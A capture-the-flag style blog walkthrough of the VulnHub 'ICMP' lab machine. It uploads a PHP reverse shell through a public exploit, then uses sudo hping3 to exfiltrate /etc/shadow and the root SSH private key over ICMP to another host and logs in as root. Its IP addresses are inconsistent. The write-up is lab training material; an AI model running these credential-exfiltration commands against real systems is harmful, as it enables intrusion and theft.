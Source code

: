 ```yaml
---
title: ICMP
categories: [Proving Grounds, Play]
tags: [Public Exploit, hping3, PrivEsc]
image:
  path: https://www.vulnhub.com/media/img/entry/icmp-00.png
  width: "1200"
  height: "630"
  alt:  ICMP Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️
<br>
Easy box, monitor resources
<br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```
{: .nolineno}
{: .nolineno}

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
{: .nolineno}
{: .nolineno}
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```
{: .nolineno}
{: .nolineno}

On the target machine, we should do as follows to get the shadow file.

```
{: .nolineno}
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```
{: .nolineno}
{: .nolineno}

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
{: .nolineno}
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```
{: .nolineno}
{: .nolineno}

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
{: .nolineno}
{: .nolineno}
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```
{: .nolineno}
{: .nolineno}

```
{: .nolineno}
{: .nolineno}
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```
{: .nolineno}
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
{: .nolineno}
{: .nolineno}
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```
{: .nolineno}
{: .nolineno}

Lastly, I could log in to the system.

```
{: .nolineno}
{: .nolineno}
ssh root@10.0.2.24 -i id_rsa
```
{: .nolineno}
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }